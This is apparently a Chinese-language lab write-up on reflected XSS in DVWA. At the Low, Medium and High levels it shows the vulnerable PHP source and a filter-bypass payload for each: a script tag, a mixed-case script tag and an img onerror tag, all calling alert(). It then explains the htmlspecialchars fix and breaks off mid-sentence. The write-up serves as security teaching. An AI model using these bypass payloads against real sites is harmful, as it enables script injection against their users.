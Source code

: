 	**反射性XSS**：攻击者通过电子邮件等方式将包含XSS的恶意连接发送给目标用户。当目标用户访问该链接时，服务器接收该目标用户的请求并处理，然后把带有XSS的代码数据发送给目标用户的浏览器，浏览器解析这段带有xss的恶意代码脚本后，就会触发xss漏洞。


## 1、Low
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '
<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

通过查看代码我们可以看到并没有任何的过滤。

**实战**<br />构造payload，通过提交框提交
```
<script>alert("XMTX")</script>
```
![image-20210416145651838.png](./assets/1655880402631-b06e9492-c43b-4ccd-9363-80b3e9f8ee90.png)


## 2、Medium
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "
<pre>Hello ${name}</pre>";
}

?>
```

**函数说明**
```
str_replace()
定义和用法
str_replace() 函数替换字符串中的一些字符（区分大小写）。

语法
str_replace(find,replace,string,count)
find：必需。规定要查找的值。
replace：必需。规定替换 find 中的值的值。
string：必需。规定被搜索的字符串。
count：可选。一个变量，对替换数进行计数。

例：
<?php
$arr = array("blue","red","green","yellow");
print_r(str_replace("red","pink",$arr,$i));
echo "Replacements: $i";
?>
运行结果：Array ( [0] => blue [1] => pink [2] => green [3] => yellow )
		Replacements: 1
```

通过查看源码可以看到使用str_replace()函数对<`script>`进行了过滤，不过我i们可以使用大小写绕过。

**实战**<br />构造payload：
```
<sCrIpt>alert("XMTX")</ScRipt>
```
![image-20210416150353296.png](./assets/1655880415257-810f12cf-0689-40a9-91d1-6ea684b5d8e0.png)


## 3、High
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "
<pre>Hello ${name}</pre>";
}

?>
```

**函数说明**
```
preg_replace 函数执行一个正则表达式的搜索和替换。

语法
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

参数说明：
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。
$limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
$count: 可选，为替换执行的次数。

返回值
如果 subject 是一个数组， preg_replace() 返回一个数组， 其他情况下返回一个字符串。
如果匹配被查找到，替换后的 subject 被返回，其他情况下 返回没有改变的 subject。如果发生错误，返回 NULL。
```

通过代码我们可以看到对`<script`进行了检测，不过我们可以使用img 标签。

**实战**<br />构造payload：
```
<img src=1 onerror=alert("XMTX")>
```
![image-20210416150755422.png](./assets/1655880433204-d5fc13ac-8f9f-480d-96cd-fe65e9fafdf1.png)


## 4、Impossible

**查看源码**
```php
<?php// Is there any input?if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $name = htmlspecialchars( $_GET[ 'name' ] );    // Feedback for end user    echo "
<pre>Hello ${name}</pre>";}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

**函数说明**
```
定义和用法htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。预定义的字符是：& （和号）成为 &amp;" （双引号）成为 &quot;' （单引号）成为 '< （小于）成为 &lt;> （大于）成为 &gt;语法htmlspecialchars(string,flags,character-set,double_encode)string	必需。规定要转换的字符串。flags	可选。规定如何处理引号、无效的编码以及使用哪种文档类型。
```

通过源码可以看出，先判断name是否为空，不为空的话然后验证其token，来防范CSRF攻击。然后再用htmlspecialchars函数将name中的预定义字符转换成html实体，这样就防止了我们填入标签

当我们输入 `<script>alert('XMTX')</script>` 时，因为 htmlspecialchars 函数会将 `<` 和 `>` 转换成html实体,并且![](https://g.yuque.com/gr/latex?%7Bname%7D%E5%8F%96%E7%9A%84%E6%98%AF#card=math&code=%7Bname%7D%E5%8F%96%E7%9A%84%E6%98%AF&id=BRang)name的值，然后包围在`

